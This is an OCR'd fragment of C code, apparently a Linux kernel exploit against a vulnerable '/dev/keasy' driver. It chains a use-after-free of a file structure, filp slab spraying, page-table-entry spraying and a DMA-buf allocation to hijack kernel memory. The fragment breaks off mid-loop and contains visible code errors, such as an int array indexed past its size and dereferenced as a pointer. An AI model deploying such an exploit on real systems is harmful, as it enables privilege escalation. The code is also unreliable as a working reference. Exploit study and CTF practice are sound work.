 ```c
  unsigned int fd_flags;
  unsigned long long heap_flags;
};

#define FILES_COUNT 0x100
#define PAGES_COUNT 0x200
#define MEM_BASE 0x696900000
int main(int argc, char const *argv[]) {
  
  int fd_spray[2*FILES_COUNT] = {0};
  int pages_spray[FILES_COUNT] = {0};

  printf("Openining the vulnarable device...\n");
  int fd = open("/dev/keasy", O_RDWR);  
  int dmafd = creat("/dev/dma_heap/system", O_RDWR);

  for (int i = 0; i < PAGES_COUNT; i++) {
    pages_spray[i] = mmap(i*0xf000 + MEM_BASE, 0x1000, PROT_WRITE|PROT_READ, MAP_ANONYMOUS|MAP_SHARED, -1, 0);
  }

  for(int i = 0; i < PAGES_COUNT; i++){
    fd_spray[i] = open("/etc/passwd", O_RDONLY);
  }

  int dangeling_fd = fd_spray[PAGES_COUNT - 1] + 1;

  printf("Freeing the file structure...\n");
  if (ioctl(fd, 0, 0x69696969) != -1){ //if the ioctl didn't fail
    printf("ERROR");
    exit(1);
  }

  printf("Filling up the filp slab cache...\n");
  for(int i = 0; i < PAGES_COUNT; i++){
    fd_spray[PAGES_COUNT + i] = open("/etc/passwd", O_RDONLY);
  }

  printf("Relasing the slab cache back to the buddy allocator...\n");
  for (int i = 0; i < PAGES_COUNT * 2; i++){
    close(fd_spray[i]);
  }
  
  printf("Allocating first part of ptes...\n");
  for (int i = 0; i < PAGES_COUNT; i++) {
      for (int j = 0; j < 0xf; j++){
        pages_spray[i][j*0x1000] = '0' + j;
      }
  }

  printf("Allocating the DMA buf entry...\n");
  int dma_buf_fd = -1;
  struct dma_heap_struct_data data;
  data.len = 0x1000;
  data.fd_flags = O_RDWR;
  data.heap_flags = 0;
  data.fd = 0;
  ioctl(dmafd, 0xc0184800, &data); // 

  printf("Allocating second part of ptes...\n");
  for (int i = 0; i < PAGES_COUNT/2; i++) {
        for (int j = 0; j < 0xf; j++)
      *(char*)(pages_spray[i] + j*0xf000) = '0' + j;
```